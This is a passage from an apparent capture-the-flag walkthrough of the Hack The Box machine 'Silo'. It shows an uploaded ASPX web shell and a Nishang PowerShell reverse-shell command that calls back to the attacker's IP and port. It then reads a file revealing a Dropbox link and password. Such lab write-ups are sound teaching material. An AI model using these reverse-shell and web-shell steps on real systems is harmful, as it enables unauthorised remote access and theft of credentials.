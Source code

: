 Visiting http://silo.htb/cmd.aspx will then bring us to the webshell.

![WebShell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Silo/web_shell.png)

From here, we can easily obtain a reverse shell by using Invoke-PowerShellTcp.ps1 script from Nishang. However, we would need to modify the script by adding the following line to the end of the script.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.5 -Port 4000
```

Afterwards, all we have to do is to upload the Invoke-PowerShellTcp.ps1 script using the cmd.aspx web shell that we have uploaded earlier and execute the command to obtain a reverse shell.
![Obtaining reverse shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Silo/reverse_shell.png)

### Obtaining root shell using Volatility
Navigating to C:\Users\phineas\Desktop, we are able to find a ```Oracle issue.txt``` file. Opening the file, we are provided with a dropbox link and the password to the dropbox link.
```
PS C:\Users\phineas\Desktop> type "Oracle issue.txt"
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
?%Hm8646uC$
PS C:\Users\phineas\Desktop> 
```

However, we are unable to login to the link using the password that we have obtained. Using the cmd.aspx web shell that we have uploaded earlier, we would realize that the ```?``` in the password is actually ```£```

![Obtaining link password from web shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Silo/password_web_shell.png)
